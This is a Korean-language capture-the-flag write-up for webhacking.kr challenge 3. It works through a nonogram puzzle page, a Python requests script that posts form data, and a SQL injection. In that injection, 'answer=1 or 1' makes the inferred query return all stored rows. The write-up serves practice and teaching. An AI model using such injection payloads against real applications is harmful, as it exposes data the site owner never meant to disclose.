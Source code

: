 ================================================================================================================
[webhacking.kr] 03
================================================================================================================

Flow Chart
================================================================================================================

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9;
        }
        step0 -> step1[label="answer=1&id=1",arrowhead="normal"];
        step3 -> step2[label="<p>name : 1<br>answer : 1<br>ip : 125.x.x.x<hr>",arrowhead="normal"];
        step4 -> step5[label="answer=1 or 1&id=1",arrowhead="normal"];
        step7 -> step6[label="@solve",arrowhead="normal"];
    }

|

Source analysis
================================================================================================================

해당 페이지는 퍼즐 형식으로 되어 있는데 퍼즐을 풀면 그때부터 문제가 시작됩니다.
해당 퍼즐 정답은 다음과 같습니다.

.. image:: ../_images/web-03_1.png
        :align: center

.. code-block:: html

    <html>
    <head>
    <title>Challenge 3</title>
    </head>
    <body>
    <center>Puzzle</center>
    <p>
    <hr>
    <form name=kk method=get action=index.php>
    <table border=3 width=500 height=500 align=center bgcolor=white>
    <tr align=center>
    <td colspan=3 rowspan=3 bgcolor=white></td>
    <td>&nbsp;</td>
    <td>&nbsp;</td>
    <td>1</td>
    </tr>
    <tr align=center>
    <td>1</td>
    <td>1</td>
    <td>1</td>
    </tr>
    <tr align=center>
    <td>1</td>
    <td>3</td>
    <td>1</td>
    <td>3</td>
    <td>1</td>
    </tr>
    <tr align=center>
    <td>1</td>
    <td>1</td>
    <td>1</td>
    <td onclick="if(this.style.background!='black') { this.style.background='black'; kk._1.value=1; } else { this.style.background='white';kk._1.value=0; }" >&nbsp;</td>
    <td onclick="if(this.style.background!='black') { this.style.background='black'; kk._2.value=1; } else { this.style.background='white';kk._2.value=0; }" >&nbsp;</td>
    <td onclick="if(this.style.background!='black') { this.style.background='black'; kk._3.value=1; } else { this.style.background='white';kk._3.value=0; }" >&nbsp;</td>
    <td onclick="if(this.style.background!='black') { this.style.background='black'; kk._4.value=1; } else { this.style.background='white';kk._4.value=0; }" >&nbsp;</td>
    <td onclick="if(this.style.background!='black') { this.style.background='black'; kk._5.value=1; } else { this.style.background='white';kk._5.value=0; }" >&nbsp;</td>
    </tr>
    <tr align=center>
    <td>&nbsp;</td>
    <td>&nbsp;</td>
    <td>0</td>
    <td onclick="if(this.style.background!='black') { this.style.background='black'; kk._6.value=1; } else { this.style.background='white';kk._6.value=0; }" >&nbsp;</td>
    <td onclick="if(this.style.background!='black') { this.style.background='black'; kk._7.value=1; } else { this.style.background='white';kk._7.value=0; }" >&nbsp;</td>
    <td onclick="if(this.style.background!='black') { this.style.background='black'; kk._8.value=1; } else { this.style.background='white';kk._8.value=0; }" >&nbsp;</td>
    <td onclick="if(this.style.background!='black') { this.style.background='black'; kk._9.value=1; } else { this.style.background='white';kk._9.value=0; }" >&nbsp;</td>
    <td onclick="if(this.style.background!='black') { this.style.background='black'; kk._10.value=1; } else { this.style.background='white';kk._10.value=0; }" >&nbsp;</td>
    </tr>
    <tr align=center>
    <td>&nbsp;</td>
    <td>&nbsp;</td>
    <td>3</td>
    <td onclick="if(this.style.background!='black') { this.style.background='black'; kk._11.value=1; } else { this.style.background='white';kk._11.value=0; }" >&nbsp;</td>
    <td onclick="if(this.style.background!='black') { this.style.background='black'; kk._12.value=1; } else { this.style.background='white';kk._12.value=0; }" >&nbsp;</td>
    <td onclick="if(this.style.background!='black') { this.style.background='black'; kk._13.value=1; } else { this.style.background='white';kk._13.value=0; }" >&nbsp;</td>
    <td onclick="if(this.style.background!='black') { this.style.background='black'; kk._14.value=1; } else { this.style.background='white';kk._14.value=0; }" >&nbsp;</td>
    <td onclick="if(this.style.background!='black') { this.style.background='black'; kk._15.value=1; } else { this.style.background='white';kk._15.value=0; }" >&nbsp;</td>
    </tr>
    <tr align=center>
    <td>&nbsp;</td>
    <td>1</td>
    <td>1</td>
    <td onclick="if(this.style.background!='black') { this.style.background='black'; kk._16.value=1; } else { this.style.background='white';kk._16.value=0; }" >&nbsp;</td>
    <td onclick="if(this.style.background!='black') { this.style.background='black'; kk._17.value=1; } else { this.style.background='white';kk._17.value=0; }" >&nbsp;</td>
    <td onclick="if(this.style.background!='black') { this.style.background='black'; kk._18.value=1; } else { this.style.background='white';kk._18.value=0; }" >&nbsp;</td>
    <td onclick="if(this.style.background!='black') { this.style.background='black'; kk._19.value=1; } else { this.style.background='white';kk._19.value=0; }" >&nbsp;</td>
    <td onclick="if(this.style.background!='black') { this.style.background='black'; kk._20.value=1; } else { this.style.background='white';kk._20.value=0; }" >&nbsp;</td>
    </tr>
    <tr align=center>
    <td>&nbsp;</td>
    <td>&nbsp;</td>
    <td>5</td>
    <td onclick="if(this.style.background!='black') { this.style.background='black'; kk._21.value=1; } else { this.style.background='white';kk._21.value=0; }" >&nbsp;</td>
    <td onclick="if(this.style.background!='black') { this.style.background='black'; kk._22.value=1; } else { this.style.background='white';kk._22.value=0; }" >&nbsp;</td>
    <td onclick="if(this.style.background!='black') { this.style.background='black'; kk._23.value=1; } else { this.style.background='white';kk._23.value=0; }" >&nbsp;</td>
    <td onclick="if(this.style.background!='black') { this.style.background='black'; kk._24.value=1; } else { this.style.background='white';kk._24.value=0; }" >&nbsp;</td>
    <td onclick="if(this.style.background!='black') { this.style.background='black'; kk._25.value=1; } else { this.style.background='white';kk._25.value=0; }" >&nbsp;</td>
    </tr>
    </table>
    <input name=_1 size=2 value=0 type=hidden>
    <input name=_2 size=2 value=0 type=hidden>
    <input name=_3 size=2 value=0 type=hidden>
    <input name=_4 size=2 value=0 type=hidden>
    <input name=_5 size=2 value=0 type=hidden>
    <input name=_6 size=2 value=0 type=hidden>
    <input name=_7 size=2 value=0 type=hidden>
    <input name=_8 size=2 value=0 type=hidden>
    <input name=_9 size=2 value=0 type=hidden>
    <input name=_10 size=2 value=0 type=hidden>
    <input name=_11 size=2 value=0 type=hidden>
    <input name=_12 size=2 value=0 type=hidden>
    <input name=_13 size=2 value=0 type=hidden>
    <input name=_14 size=2 value=0 type=hidden>
    <input name=_15 size=2 value=0 type=hidden>
    <input name=_16 size=2 value=0 type=hidden>
    <input name=_17 size=2 value=0 type=hidden>
    <input name=_18 size=2 value=0 type=hidden>
    <input name=_19 size=2 value=0 type=hidden>
    <input name=_20 size=2 value=0 type=hidden>
    <input name=_21 size=2 value=0 type=hidden>
    <input name=_22 size=2 value=0 type=hidden>
    <input name=_23 size=2 value=0 type=hidden>
    <input name=_24 size=2 value=0 type=hidden>
    <input name=_25 size=2 value=0 type=hidden>
    <input name=_answer type=hidden>

    <center><input type=button value='gogo' onclick=go()></center>

    <script>
    function go()
    {
        var answer="";
        for(i=1;i<=25;i++) { 
            answer=answer+eval("kk._"+i+".value"); 
        }
        kk._answer.value=answer;
        kk.submit();
    }
    </script>

    </body>
    </html>

정답 입력후 gogo 버튼을 클릭하면 다음과 같은 화면이 출력된다. 

.. image:: ../_images/web-03_2.png
        :align: center


소스를 확인해 보면 다음과 같이 post 형식으로 데이터를 보내고 있다.

.. code-block:: html

    <html>
    <head>
    <title>Challenge 3</title>
    </head>
    <body>
    <center>Puzzle</center>
    <p>
    <hr>

    <form name=kk method=get action=index.php>

    </form><form method=post action=index.php><input type=hidden name=answer value=1010100000011100101011111>name : <input type=text name=id maxlength=10 size=10><input type=submit value='write'>

|

POST Parameter
================================================================================================================

임의의 값을 입력하여 출력되는 메시지를 확인한다.

.. code-block:: python

    import requests

    url = "http://webhacking.kr/challenge/web/web-03/index.php?_1=1&_2=0&_3=1&_4=0&_5=1&_6=0&_7=0&_8=0&_9=0&_10=0&_11=0&_12=1&_13=1&_14=1&_15=0&_16=0&_17=1&_18=0&_19=1&_20=0&_21=1&_22=1&_23=1&_24=1&_25=1&_answer=1010100000011100101011111"
    cookies = {
        "PHPSESSID":"di0tppi0hjd8prirqbkkl6isj2",
    }
    data = {
        "answer": "1",
        "id":"1"
    }
    r = requests.post(url, data=data, cookies = cookies, verify=False)

    print r.content
    
출력 결과는 다음과 같다.

.. code-block:: html

    <html>
    <head>
    <title>Challenge 3</title>
    </head>
    <body>
    <center>Puzzle</center>
    <p>
    <hr>

    <form name=kk method=get action=index.php>

    <p>name : 1<br>answer : 1<br>ip : 125.x.x.x<hr><p>name : 1<br>answer : 1<br>ip : 125.x.x.x<hr><p>name : 1<br>answer : 1<br>ip : 125.x.x.x<hr><p>name : 33<br>answer : 1<br>ip : 125.x.x.x<hr><p>name : 33<br>answer : 1<br>ip : 125.x.x.x<hr><p>name : 33<br>answer : 1||1<br>ip : 125.x.x.x<hr>

|

해당 문제에 입력 부분은 name과 answer이고, 출력 부분은 name, answer, ip이다.

출력 결과를 보면 ip는 항상 같고, answer가 같은 값을 입력한 상태에서 
name값을 다르게 입력하면 누적형식으로 쌓인 데이터를 확인할 수 있다. 

SQL 쿼리문으로 표현하면 다음과 같다.

.. code-block:: sql
    
    select id, answer, ip from $table_name where ip= $_SERVER[REMOTE_ADDR] and answer = $_POST[answer]

|


$_POST[answer]에 참인 값을 or 형식으로 넣어주면 모든 answer 출력 결과를 얻을 수 있다.

.. code-block:: sql
    
    select id, answer, ip from $table_name where ip= $_SERVER[REMOTE_ADDR] and answer = 1 or 1


